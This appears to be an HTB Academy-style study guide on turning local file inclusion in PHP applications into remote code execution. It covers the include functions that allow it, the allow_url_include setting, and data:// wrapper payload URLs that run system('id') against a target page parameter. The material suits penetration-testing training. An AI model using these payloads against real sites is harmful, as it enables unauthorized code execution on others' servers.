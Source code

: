 # PHP Wrappers for RCE - HTB Academy Guide

## Remote Code Execution via PHP Wrappers

PHP wrappers enable attackers to achieve Remote Code Execution (RCE) through LFI vulnerabilities when include functions have execute privileges. This section covers the most effective wrapper-based RCE techniques.

### Prerequisites for PHP Wrapper RCE

**Required Conditions:**
- LFI vulnerability in PHP application
- Include function with execute privileges
- Specific PHP configuration settings (varies by wrapper)

**Vulnerable Functions Supporting RCE:**
| Function | Read Content | Execute | Remote URL |
|----------|-------------|---------|------------|
| `include()` / `include_once()` | ✅ | ✅ | ✅ |
| `require()` / `require_once()` | ✅ | ✅ | ❌ |

---

## Method 1: Data Wrapper RCE

The `data://` wrapper allows embedding PHP code directly in the URL, providing an immediate RCE vector.

### Basic Data Wrapper Syntax

**Configuration Requirements:**
```ini
# Required in php.ini
allow_url_include = On
```

**Basic Syntax:**
```bash
data://text/plain,PHP_CODE_HERE
data://text/plain;base64,BASE64_ENCODED_PHP
```

### Data Wrapper Examples

**Simple Command Execution:**
```bash
# Direct PHP code execution
http://target.com/index.php?page=data://text/plain,<?php system('id'); ?>

# URL encoded version
http://target.com/index.php?page=data://text/plain,%3C%3Fphp%20system%28%27id%27%29%3B%20%3F%3E
```
